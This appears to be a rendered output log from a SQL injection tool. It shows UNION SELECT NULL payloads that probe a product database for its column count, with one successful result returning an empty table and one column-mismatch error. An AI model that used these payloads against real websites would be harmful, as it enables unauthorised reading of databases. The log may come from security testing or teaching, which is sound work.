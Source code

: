 

    
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    
    Payload: 1' UNION SELECT NULL, NULL, NULL, NULL, NULL -- 
    Correct number of columns found. Extracted table:
    Result table:



<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)
   </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
  </td>
  <td style="width:200px">
  </td>
  <td style="width:450px">
  </td>
  <td style="width:110px">
  </td>
 </tr>
</table>



    
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    
    Payload: 1' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL -- 
    The used SELECT statements have a different number of columns
    Result table:


